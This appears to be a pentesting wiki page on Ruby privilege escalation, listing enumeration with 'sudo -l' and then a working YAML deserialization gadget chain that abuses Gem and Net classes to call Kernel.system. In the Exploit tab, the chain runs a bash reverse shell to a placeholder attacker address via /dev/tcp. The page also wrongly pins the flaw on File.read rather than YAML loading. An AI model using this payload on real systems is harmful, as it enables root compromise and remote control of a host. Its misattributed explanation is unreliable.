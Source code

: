 # Ruby

## Theory

Ruby scripting is a powerful tool used by system administrators and developers to automate tasks and streamline processes on Unix-like systems. However, like any software, ruby scripts can be vulnerable to various security issues, which, if exploited, can lead to privilege escalation and unauthorized access.

## Practice

### YAML Code Execution

{% tabs %}
{% tab title="Enumerate" %}
Assume the ruby script can be executed as root with sudo rights. If it use the `File.read()` method and we controll its input, then the script is vulnerable to arbitrary code execution.

```bash
sudo -l
    (root): /usr/bin/ruby sample.rb
```

Check if we have control over the input of the vulnerable function

```ruby
File.read(’sample.yml’)
```
{% endtab %}

{% tab title="Exploit" %}
If we controll some variables passed to this vulnerables functions, we can inject arbitrary code. here is an example of a malicious `sammple.yml` file passed to the `File.read()` function:

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "bash -c 'bash -i >& /dev/tcp/<local-ip>/<local-port> 0>&1'"
         method_id: :resolve

```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ruby-privilege-escalation/" %}

